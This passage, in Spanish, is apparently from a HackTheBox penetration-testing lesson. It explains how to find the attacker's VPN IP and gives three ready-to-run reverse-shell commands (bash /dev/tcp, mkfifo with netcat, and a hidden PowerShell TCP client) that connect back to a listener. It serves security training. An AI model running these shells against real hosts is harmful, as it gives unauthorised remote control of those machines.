Ahora que tenemos un listener de netcat esperando una conexión, podemos ejecutar el comando de shell inverso que se conecta a nosotros. 

#### *CONECTAR IP POSTERIOR*

Sin embargo, primero, necesitamos encontrar la IP de nuestro sistema para enviarnos una conexión inversa. Podemos encontrar nuestra IP con el siguiente comando: 

~~~

$ ip a

...SNIP...

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none
    inet 10.10.10.10/23 scope global tun0
...SNIP...

~~~

En nuestro ejemplo, la IP que nos interesa está bajo tun0, que es la misma red HTB a la que nos conectamos a través de nuestra VPN. 

>Nota: Nos estamos conectando a la IP en 'tun0' porque solo podemos conectarnos a las box HackTheBox a través de la conexión VPN, ya que no tienen conexión a Internet y, por lo tanto, no pueden conectarse a nosotros a través de Internet usando 'eth0'. En un pentest real, puede estar conectado directamente a la misma red, o realizando una prueba de penetración externa, por lo que puede conectarse a través del adaptador `eth0` o similar.

#### *COMANDO REVERSE SHELL*

El comando que ejecutamos depende del sistema operativo en el que se ejecuta el host comprometido, es decir, Linux o Windows, y a qué aplicaciones y comandos podemos acceder. La página [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) tiene una lista completa de comandos de shell inverso que podemos usar que cubren una amplia gama de opciones dependiendo de nuestro host comprometido. 

Ciertos comandos de shell inverso son más confiables que otros y, por lo general, se pueden intentar para obtener una conexión inversa. Los siguientes comandos son comandos confiables que podemos usar para obtener una conexión inversa, para bash en hosts comprometidos de Linux y Powershell en hosts comprometidos de Windows: 
Code: `bash`
~~~
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
~~~

Code: `bash`
~~~
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
~~~

Code: `powershell`
~~~
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
~~~
